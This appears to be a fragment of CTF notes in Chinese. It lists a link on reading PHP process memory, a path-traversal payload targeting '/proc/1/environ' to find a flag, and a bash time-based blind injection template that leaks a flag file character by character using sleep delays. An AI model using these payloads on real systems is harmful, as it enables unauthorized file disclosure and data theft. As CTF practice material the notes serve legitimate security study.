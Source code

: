 
- [web_php_proc_mem内存读取.md]()
- 环境变量找flag `"../../../proc/1/environ"`
- bash 盲注: ``"if [ `cat /flag_is_h3eeere | awk NR=={i} | cut -c {j}` == '{k}' ];then sleep 2;fi"``